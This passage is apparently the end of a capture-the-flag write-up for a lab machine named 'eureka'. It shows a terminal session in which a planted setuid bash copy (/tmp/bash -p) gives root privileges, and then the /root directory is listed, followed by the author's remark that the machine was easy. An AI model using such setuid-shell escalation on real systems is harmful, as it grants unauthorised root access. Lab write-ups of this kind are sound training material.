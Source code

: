 Then we can get the root shell 
```
miranda-wise@eureka:/var/www/web/cloud-gateway/log$ /tmp/bash  -p
bash-5.0# id
uid=1001(miranda-wise) gid=1002(miranda-wise) euid=0(root) groups=1002(miranda-wise),1003(developers)
bash-5.0# cd /root
bash-5.0# ls
log_analysis.txt  root.txt  snap
bash-5.0# 
```

# Description

Although the difficulty of this machine is set to hard, I don’t think it is hard at all. All the vulnerabilities and exploits are very clear and simple, without any complicated or difficult visual obstacles or confusion.